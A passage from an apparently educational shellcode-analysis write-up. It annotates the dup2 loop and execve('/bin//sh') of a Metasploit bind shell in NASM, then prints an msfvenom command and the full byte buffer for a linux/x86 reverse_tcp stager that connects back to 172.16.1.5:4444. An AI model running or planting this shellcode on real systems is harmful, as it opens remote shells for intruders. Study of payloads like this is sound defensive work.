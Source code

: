 The series of `dup2(2)` calls will copy stdin, stdout, and stderr to the FD returned by `accept(2)`. This will be done in a loop. The file descriptors that must be duplicates are 0, 1, and 2. Conveniently, there is a `0x03` on the stack that can just be popped into ECX. 

```nasm
push byte +0x3f
pop eax
int 0x80
dec ecx
jns 0x32
```

This block is the `dup2(2)` loop. This uses the same trick above of PUSHing a value to the stack and then popping it off to move that value in without producing any leading null bytes. This sets the `dup2(2)` syscall ID ino EAX. Then it fires the syscall with what was put into EBX and ECX before entering the loop. Then ECX is decremented. From here, if the decrement would cause ECX to become signed (i.e. less than zero) it proceeds, if not it loops back to the initial `push byte +0x3f` instruction. 

 ```nasm
push dword 0x68732f2f ; hs//
push dword 0x6e69622f ; nib/
mov ebx,esp
push eax
push ebx
mov ecx,esp
mov al,0xb
int 0x80
```

When the loop is exited, it builds and makes an `execve(2)` call. This is done by pushing `/bin//sh` backwards and in reverse order. The rest is building the requisite arrays for execve arguments on the stack and firing the call. At this point whoever's connected will be presented with a shell. 

## 2. linux/x86/shell/reverse_tcp Stage 1 Unencoded

Next we'll discuss the first stage of a staged shellcode payload. Specifically `linux/x86/shell/reverse_tcp`'s stager. Staged shellcodes come in two parts. The first stage, or 'stager' is designed to receive or acquire a larger second stage and then pass execution to it. This helps with exploitation scenarios that involve more limited space for payloads, or are limited in the characters that can be used. An egghunter could be considered a stager. This first stage payload connects back and receives the second stage from us. 
 
Just as before I'll generate the shellcode, clean up the output, and analyze it. 

```
root@mountain:~# msfvenom -p linux/x86/shell/reverse_tcp LHOST=172.16.1.5 LPORT=4444 -f c
No platform was selected, choosing Msf::Module::Platform::Linux from the payload
No Arch selected, selecting Arch: x86 from the payload
No encoder or badchars specified, outputting raw payload
Payload size: 123 bytes
Final size of c file: 543 bytes
unsigned char buf[] = 
"\x6a\x0a\x5e\x31\xdb\xf7\xe3\x53\x43\x53\x6a\x02\xb0\x66\x89"
"\xe1\xcd\x80\x97\x5b\x68\xac\x10\x01\x05\x68\x02\x00\x11\x5c"
"\x89\xe1\x6a\x66\x58\x50\x51\x57\x89\xe1\x43\xcd\x80\x85\xc0"
"\x79\x19\x4e\x74\x3d\x68\xa2\x00\x00\x00\x58\x6a\x00\x6a\x05"
"\x89\xe3\x31\xc9\xcd\x80\x85\xc0\x79\xbd\xeb\x27\xb2\x07\xb9"
"\x00\x10\x00\x00\x89\xe3\xc1\xeb\x0c\xc1\xe3\x0c\xb0\x7d\xcd"
"\x80\x85\xc0\x78\x10\x5b\x89\xe1\x99\xb6\x0c\xb0\x03\xcd\x80"
"\x85\xc0\x78\x02\xff\xe1\xb8\x01\x00\x00\x00\xbb\x01\x00\x00"
"\x00\xcd\x80";
```
